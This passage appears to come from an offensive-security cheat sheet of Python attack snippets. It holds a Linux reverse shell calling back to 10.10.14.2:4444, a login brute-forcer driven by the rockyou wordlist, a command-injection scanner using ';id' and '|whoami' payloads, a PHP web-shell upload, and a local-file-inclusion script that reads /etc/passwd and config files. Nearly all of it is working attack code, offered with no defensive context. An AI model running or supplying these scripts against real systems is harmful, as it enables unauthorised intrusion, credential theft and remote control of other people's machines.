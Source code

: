 #### 🧠 Reverse Shell (Linux)

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4444))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

#### 🧙 Web Login Brute-Forcer

```python
import requests

target = "http://target.com/login"
for password in open("rockyou.txt"):
    data = {"username":"admin","password":password.strip()}
    r = requests.post(target, data=data)
    if "Welcome" in r.text:
        print(f"[+] Password found: {password.strip()}")
        break
```

***

### IV. 💣 Exploitation Framework Techniques

#### 🧩 Command Injection Automation

```python
import requests

target = "http://vulnerable.com/ping?ip="
payloads = [";id", "&&ls", "|whoami"]
for p in payloads:
    r = requests.get(target + p)
    if "uid=" in r.text:
        print(f"[+] Command Injection Found with payload: {p}")
```

#### 🧬 File Upload Exploit

```python
import requests
files = {'file': open('shell.php','rb')}
r = requests.post('http://target.com/upload', files=files)
print(r.text)
```

#### 🧠 LFI Automation

```python
import requests

url = "http://10.10.10.5/vuln.php?file="
payloads = ["../../../../etc/passwd", "../../../../var/www/html/config.php"]
for p in payloads:
    r = requests.get(url + p)
    if "root:" in r.text:
        print(f"[+] LFI success with payload: {p}")
```
